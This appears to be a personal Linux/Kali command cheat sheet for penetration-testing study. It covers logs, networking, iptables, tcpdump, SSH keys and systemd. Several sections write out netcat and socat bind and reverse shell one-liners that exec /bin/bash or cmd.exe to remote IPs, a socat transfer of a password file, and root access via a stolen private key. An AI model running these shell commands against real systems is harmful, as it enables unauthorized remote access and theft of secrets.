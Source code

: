 ### Show logger
who  
last  
/var/log 检查日志

### Disk Partition
lsblk  
sudo fdisk -l

### Show network connections
netstat -natup  
ss -natup

### Copy file from remote machine to local tmp
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2  
scp -P 2222 student@192.168.79.112:/usr/share/kali-defaults/web/img/password.png /home/kali/

### echo current shell
echo $SHELL

### echo environmental variable
env

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### NC bind shell
```
nc -nlvp 4444 -e cmd.exe
nc -nv 10.11.0.22 4444
```

### NC reverse shell
```
nc -nlvp 4444
nc -nv 10.11.0.22 4444 -e /bin/bash
```

### Socat connect remote machine
```
socat - TCP4:ip-address:80
```
### Socat encrypted bind shell
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 30 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem

sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
socat - OPENSSL:192.168.22.31:443,verify=0

socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT
socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:/bin/bash
windows:socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:'cmd.exe',pipes
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Socat reverse shell
```
socat -d -d TCP4-LISTEN:443 STDOUT(shell listener)
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
socat - TCP4:172.16.53.20:456(shell connection)
```

### IPTables
```
sudo iptables -L (show iptables) --line-numbers(optional)
Append a rule to the INPUT chain for a source network of 192.168.1.0/24 for all protocols: sudo iptables -s 192.168.1.0/24 -p all -A(append)/D(delete)/I(insert) INPUT
sudo iptables -s 127.0.0.1 -d 127.0.0.1 -A INPUT
sudo iptables -s 192.168.1.37 -p tcp -A INPUT
sudo iptables -D INPUT 5(linenumber)
sudo iptables -nvL(show traffic)
sudo iptables -P FOWARD DROP(change default policy of forward to drop)
sudo iptables -R(replace) INPUT 1 -s 192.168.1.37 -d 127.0.0.1 -p tcp --dport 8080
Final: sudo iptables-save
```

#### stateful firewall
**INVALID**: The packet is associated with no known connection.  
**NEW**: The packet has started a new connection or otherwise associated with a connection that has not seen packets in both directions.  
**ESTABLISHED**: The packet is associated with a connection that has seen packets in both directions.  
**RELATED**: The packet is starting a new connection, but is associated with an existing connection, such as an FTP data transfer or an ICMP error.  
**UNTRACKED**: The packet is not tracked at all, which happens if you explicitly un-track it by using -j CT --notrack in the raw table.  
```
sudo iptables -I INPUT 1 -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
sudo iptables -I INPUT 2 -m conntrack --ctstate INVALID -j DROP
sudo iptables -L --line-numbers
```


### Tcpdump
sudo tcpdump -i any -w file.pcap

### Find
find /usr -type f -exec md5sum {} + | grep "d61d579501ab8ff507120780191929d5"
> find only files under usr with hash value d61----



### SSH 免密登录(manual way: copied over the id_rsa.pub file to authorized_keys)
> First way:  
> ssh-keygen  
> ssh-copy-id -i /home/kali/.ssh/id_rsa.pub kali@remote_ip  
> Second way:  
> ssh-keygen  
> ssh-copy-id remote-username@remote_ip  

###### Using root's private key to gain root access
chmod 400 private_key  
ssh -i private_key username@remote_ip  

### Systemd
journalctl -u network.service(See network service messages)  
systemctl show service(Show properties of a service or other unit)  
journalctl(Show all collected log messages)  
journalctl -k(Show only kernel messages)

### list commands current users can/can't execute 
sudo -l

### Use of .bashrc or .zshrc(check shell you are using first)
make persistent alias by adding (alias ..='cd')  
execute command when user logins in by adding command (echo "xingdi")

### Ndisasm
```
ndisasm [-a] [-i] [-h] [-r] [-u] [-b bits] [-o origin] [-s sync...]
               [-e bytes] [-k start,bytes] [-p vendor] file
   -a or -i activates auto (intelligent) sync
   -u same as -b 32
   -b 16, -b 32 or -b 64 sets the processor mode
   -h displays this text
   -r or -v displays the version number
   -e skips <bytes> bytes of header
   -k avoids disassembling <bytes> bytes from position <start>
   -p selects the preferred vendor instruction set (intel, amd, cyrix, idt)
```

